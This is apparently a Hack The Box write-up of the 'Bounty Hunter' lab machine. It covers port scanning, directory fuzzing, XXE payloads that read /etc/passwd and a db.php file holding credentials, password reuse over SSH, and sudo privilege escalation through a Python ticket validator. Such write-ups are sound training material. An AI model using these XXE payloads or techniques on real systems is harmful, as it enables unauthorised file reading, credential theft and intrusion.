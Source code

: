 ```yaml
---
title: "Bounty Hunter HackTheBox" 
date: 2023-07-05 17:20:00 0000+
tags: [WriteUp, BountyHunter, HTB, XXE, Vulnerbility, Linux, privesc]
categories: [WriteUps, HackTheBox]
image:
  path: ../assets/images/BountyHunter-HTB/preview_bountyhunter.png
---
```


# Bounty Hunter - Hack the Box Writeup

In this Hack the Box writeup, we will walk through the process of hacking into the **Bounty Hunter machine**. This machine requires a mix of web application exploitation and privilege escalation techniques. The first step is to perform a port scan and identify the open ports and services. From there, we will exploit a vulnerability in the web application to gain access to the machine. Finally, we will escalate our privileges to gain root access and complete the challenge.

![image.png](../assets/images/BountyHunter-HTB/BountyHunter.png)

## **Initial Reconnaissance**

The first step in the process is to perform a port scan using Nmap to identify the open ports and services. This will help us understand the attack surface and identify potential vulnerabilities to exploit.

```bash
nmap -sC -sV -v -T4 -p- -oA nmap/bountyhunter 10.10.11.100
```

After the Nmap scan we get 2 ports open which are **ssh(22) and http(80).**

![image.png](../assets/images/BountyHunter-HTB/Untitled.png)

Heading over to this → [http://10.10.11.100/](http://10.10.11.100/) opens up this webpage.

![image.png](../assets/images/BountyHunter-HTB/Untitled%201.png)

After enumerating the webpage further, I found only this [http://10.10.11.100/portal.php](http://10.10.11.100/portal.php) webpage, which says “Portal under development. Go here to test the bounty tracker.”

![image.png](../assets/images/BountyHunter-HTBUntitled%202.png)

Which is further redirecting us to this [http://10.10.11.100/log_submit.php](http://10.10.11.100/log_submit.php), and opens up this page.

After filling the given fields, and submitting it. It returns this output.

![image.png](../assets/images/BountyHunter-HTBUntitled%203.png)

I captured the following request in burp. Which then reveals a secret page in the webserver → [http://10.10.11.100/tracker_diRbPr00f314.php](http://10.10.11.100/tracker_diRbPr00f314.php), and also the data parameter in the request is base 64 encoded, decoding it base64 reveals that it is an XML request is being POSTED to the server.

![image.png](../assets/images/BountyHunter-HTB/Untitled%204.png)

So here we can try using the XXE injection, cause there may be a XXE vulnerability.

But before that let’s just enumerate the webpage further by fuzzing it. I have used feroxbuster to fuzz the webpage, you can use any tool you may like.

```bash
feroxbuster -u http://10.10.11.100/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -C 40
```

![image.png](../assets/images/BountyHunter-HTBUntitled%205.png)

The feroxbuster’s output reveals an interesting php page in the webserver which is db.php, visiting it opens up a blank page.

## **Exploitation**

Now moving forward with our XML page which we found earlier, I tried using the XXE injection against it from [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection).

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd"> ]>
    <bugreport>
    <title>nothing &xxe; dean</title>
    <cwe>cwe=nothing</cwe>
    <cvss>cvss-12132</cvss>
    <reward>100</reward>
    </bugreport>
```

I base64 encode the above payload and then URL encoded it. Now using burp to send this request.

![image.png](../assets/images/BountyHunter-HTB/burpsuite_output_etc_passwd.png)

The sent request returns us this response with a base64 encoded string in it. Decoding it with base64 reveals the contents of /etc/passwd file on the server.

![image.png](../assets/images/BountyHunter-HTB/base64decode_etc_passwd.png)

This reveals the user “development” on the box.

Now I tried a lot to upload a reverse shell to the box but its of no use, I couldn’t find any way to do so.

Then I remembered I found a db.php file on the web server. I tried sending that file.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
    <bugreport>
    <title>nothing &xxe; dean</title>
    <cwe>cwe=nothing</cwe>
    <cvss>cvss-12132</cvss>
    <reward>100</reward>
    </bugreport>
```

Again base64 and URL encoding the above payload and sending it. Reveals clear text credentials of “admin” user.

![image.png](../assets/images/BountyHunter-HTB/database_cred.png)

I tried SSHing in the box with user “admin” and its pass. But it doesn’t seem to work.

## **Shell as development**

Then I tried the same password with the user “development” which validates us and gives us a shell.

Simply listing the files in the default directory reveals the user.txt.

![image.png](../assets/images/BountyHunter-HTB/Untitled%206.png)

## Privilege Escalation

Now for the privesc part I tried listing files that can be ran with root permissions.

Reveals us this python [ticketvalidator.py](http://ticketvalidator.py) file.

![image.png](../assets/images/BountyHunter-HTB/Untitled%207.png)

After reading and analyzing the python code, I found that the [ticketvalidator.py](http://ticketvalidator.py) file only accepts the .md files and denies any other file. It also checks what is written inside of the file with proper syntax of how a ticket is created.

The first line of every ticket should contain → # Skytrain Inc

second line should contain → ## Ticket to

third line should contain → **Ticket Code:**_

The fourth line should contain two digits separated by a ‘+’ symbol returning a sum, and where the number before ‘+’ symbol should be divisible by 7 and returning 4 as the remainder.

Fulfilling the above criteria I created a script in the temp directory named [root.md](http://root.md). And also added an extra line stating the shell, which is true. This is script is being executed with root permissions which can give us a root shell.

![image.png](../assets/images/BountyHunter-HTB/root.md.png)

```bash
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

![image.png](../assets/images/BountyHunter-HTB/we_r_root.png)

Yeah!!! and like that we are root!!!.

Now moving forward and grabbing the root.txt.

![image.png](../assets/images/BountyHunter-HTB/root.txt_final.png)

THANKS GUYS FOR READING!

HOPE U LIKE IT!

HAPPY HACKING!!!

